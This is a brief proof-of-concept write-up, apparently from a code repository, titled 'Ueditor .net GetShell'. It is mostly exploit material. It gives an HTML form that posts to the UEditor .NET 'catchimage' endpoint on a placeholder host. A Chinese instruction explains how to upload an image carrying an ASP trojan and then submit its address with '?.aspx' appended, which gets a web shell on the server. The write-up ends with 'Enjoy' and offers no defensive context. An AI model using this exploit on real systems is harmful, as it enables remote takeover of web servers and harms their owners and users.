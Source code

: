 # Ueditor .net GetShell

## POC

```html
<form action="http://xxxxxxxxx/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```
**先上传一张包含asp木马的正常图片，之后在shell addr中填入该图片的地址并在末尾加入?.aspx，如xxx.jpg?.aspx，提交后即可getshell**
## Enjoy
